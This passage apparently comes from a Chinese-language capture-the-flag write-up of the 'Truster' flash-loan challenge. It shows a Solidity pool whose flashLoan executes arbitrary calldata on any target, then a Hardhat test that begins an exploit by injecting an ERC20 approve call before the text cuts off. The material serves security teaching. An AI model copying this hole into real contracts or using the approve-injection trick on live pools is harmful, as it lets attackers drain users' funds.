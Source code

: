 ```solidity
        damnValuableToken = IERC20(tokenAddress);
    }

    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    ) external nonReentrant {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(
            balanceAfter >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
}

```

### 完整測試檔案

```jsx
const { ethers } = require('hardhat');
const { expect } = require('chai');
const { web3 } = require('@openzeppelin/test-helpers/src/setup');

describe('[Challenge] Truster', function () {
    let deployer, attacker;

    const TOKENS_IN_POOL = ethers.utils.parseEther('1000000');

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, attacker] = await ethers.getSigners();

        const DamnValuableToken = await ethers.getContractFactory('DamnValuableToken', deployer);
        const TrusterLenderPool = await ethers.getContractFactory('TrusterLenderPool', deployer);

        this.token = await DamnValuableToken.deploy();
        this.pool = await TrusterLenderPool.deploy(this.token.address);

        await this.token.transfer(this.pool.address, TOKENS_IN_POOL);

        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.equal(TOKENS_IN_POOL);

        expect(
            await this.token.balanceOf(attacker.address)
        ).to.equal('0');
    });
    it('Exploit', async function () {
        const iface = new ethers.utils.Interface(["function approve(address sender, uint256 amount)"]);
        await this.pool.flashLoan(
            0,
            attacker.address,
```